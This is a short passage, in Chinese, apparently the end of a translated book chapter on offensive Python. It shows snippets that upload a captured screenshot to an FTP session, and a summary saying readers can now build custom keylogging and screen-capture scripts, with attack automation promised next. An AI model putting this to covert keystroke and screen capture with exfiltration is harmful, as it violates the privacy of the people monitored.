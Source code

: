使用以下代码打开文件：

```py
file = open('screenshot.png','rb')

```

发送文件：

```py
session.storbinary('STOR screenshot.png', file)

```

关闭文件和 FTP 会话：

```py
file.close()                                     
session.quit() 

```

# 总结

我们已经讨论了您可以使用 Python 进行按键记录和屏幕截图的基本模块。现在，您可以创建这些脚本的定制版本来记录按键并抓取屏幕截图。我们将在下一章中讨论一些攻击自动化技术。
